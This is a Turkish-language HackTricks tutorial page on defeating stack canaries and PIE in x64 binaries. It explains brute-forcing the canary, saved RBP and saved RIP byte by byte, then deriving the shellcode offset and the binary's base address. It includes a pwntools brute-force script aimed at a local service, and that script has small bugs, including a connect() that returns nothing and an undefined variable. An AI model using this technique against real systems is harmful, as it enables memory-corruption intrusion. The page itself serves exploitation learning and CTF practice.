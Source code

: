 # BF Yığınındaki Adresler

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

**Eğer bir canary ve PIE (Pozisyona Bağımsız İkili) ile korunmuş bir ikili ile karşılaşıyorsanız, bunları aşmanın bir yolunu bulmanız gerekecektir.**

![](<../../../../.gitbook/assets/image (144).png>)

{% hint style="info" %}
**`checksec`** bir ikilinin canary ile korunduğunu bulamayabilir, eğer bu statik olarak derlenmişse ve fonksiyonu tanımlama yeteneği yoksa.\
Ancak, bir fonksiyon çağrısının başında yığında bir değerin kaydedildiğini ve bu değerin çıkmadan önce kontrol edildiğini bulursanız bunu manuel olarak fark edebilirsiniz.
{% endhint %}

## Kaba Kuvvetle Adresler

PIE'yi aşmak için **bazı adresleri sızdırmanız** gerekiyor. Ve eğer ikili herhangi bir adres sızdırmıyorsa, en iyi yol, **savunmasız fonksiyondaki yığında kaydedilen RBP ve RIP'yi kaba kuvvetle denemektir.**\
Örneğin, bir ikili hem **canary** hem de **PIE** kullanılarak korunuyorsa, önce canary'yi kaba kuvvetle denemeye başlayabilirsiniz, ardından **sonraki** 8 Bayt (x64) kaydedilen **RBP** ve **sonraki** 8 Bayt kaydedilen **RIP** olacaktır.

{% hint style="success" %}
Yığında bulunan dönüş adresinin ana ikili koduna ait olduğu varsayılmaktadır; bu, eğer zafiyet ikili kodda bulunuyorsa genellikle böyle olacaktır.
{% endhint %}

İkili dosyadan RBP ve RIP'yi kaba kuvvetle denemek için, program bir şey çıktığında veya sadece çökmediğinde geçerli bir tahmin edilen baytın doğru olduğunu anlayabilirsiniz. **Canary'yi kaba kuvvetle denemek için sağlanan** aynı fonksiyon, RBP ve RIP'yi kaba kuvvetle denemek için de kullanılabilir:
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
Son PIE'yi yenmek için ihtiyacınız olan son şey, **sızan** adreslerden **yararlı adresleri** hesaplamaktır: **RBP** ve **RIP**.

**RBP**'den, **yığın içinde shell'inizi nereye yazdığınızı** hesaplayabilirsiniz. Bu, yığın içinde _"/bin/sh\x00"_ dizesini nereye yazacağınızı bilmek için çok yararlı olabilir. Sızan RBP ile shellcode'unuz arasındaki mesafeyi hesaplamak için, **RBP'yi sızdırdıktan sonra bir kesme noktası koyabilir** ve **shellcode'unuzun nerede bulunduğunu** kontrol edebilirsiniz, ardından shellcode ile RBP arasındaki mesafeyi hesaplayabilirsiniz:
```python
INI_SHELLCODE = RBP - 1152
```
**RIP**'ten **PIE ikili dosyasının temel adresini** hesaplayabilirsiniz, bu da geçerli bir **ROP zinciri** oluşturmak için gerekecektir.\
Temel adresi hesaplamak için sadece `objdump -d vunbinary` komutunu çalıştırın ve en son adresleri kontrol edin:

![](<../../../../.gitbook/assets/image (145).png>)

Bu örnekte, tüm kodu bulmak için yalnızca **1 Byte ve yarım** gerektiğini görebilirsiniz, bu durumda temel adres **sızdırılan RIP ama "000" ile biten** olacaktır. Örneğin, `0x562002970ecf` sızdırdıysanız, temel adres `0x562002970000`'dır.
```python
elf.address = RIP - (RIP & 0xfff)
```
{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
